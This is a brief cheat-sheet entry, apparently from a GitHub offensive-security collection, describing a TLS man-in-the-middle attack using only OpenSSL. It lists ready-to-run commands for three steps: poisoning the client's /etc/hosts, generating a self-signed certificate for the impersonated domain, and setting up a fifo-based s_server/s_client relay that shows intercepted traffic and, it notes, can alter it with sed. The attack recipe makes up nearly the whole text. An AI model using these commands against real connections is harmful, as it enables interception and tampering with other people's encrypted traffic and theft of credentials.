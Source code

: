 
### SSL MITM with OpenSSL

This code snippet allows you to sniff/modify SSL traffic if there is a MITM vulnerability using only openssl.
If you can modify `/etc/hosts` of the client:

```powershell
sudo echo "[OPENSSL SERVER ADDRESS] [domain.of.server.to.mitm]" >> /etc/hosts  # On client host
```

On our MITM server, if the client accepts self signed certificates (you can use a legit certificate if you have the private key of the legit server):

```powershell
openssl req -subj '/CN=[domain.of.server.to.mitm]' -batch -new -x509 -days 365 -nodes -out server.pem -keyout server.pem
```

On our MITM server, we setup our infra:

```powershell
mkfifo response
sudo openssl s_server -cert server.pem -accept [INTERFACE TO LISTEN TO]:[PORT] -quiet < response | tee | openssl s_client -quiet -servername [domain.of.server.to.mitm] -connect[IP of server to MITM]:[PORT] | tee | cat > response
```

In this example, traffic is only displayed with `tee` but we could modify it using `sed` for example.


## References

* [Pwning the Domain: Credentialess/Username - hadess - February 7, 2024 ](https://hadess.io/pwning-the-domain-credentialess-username/)
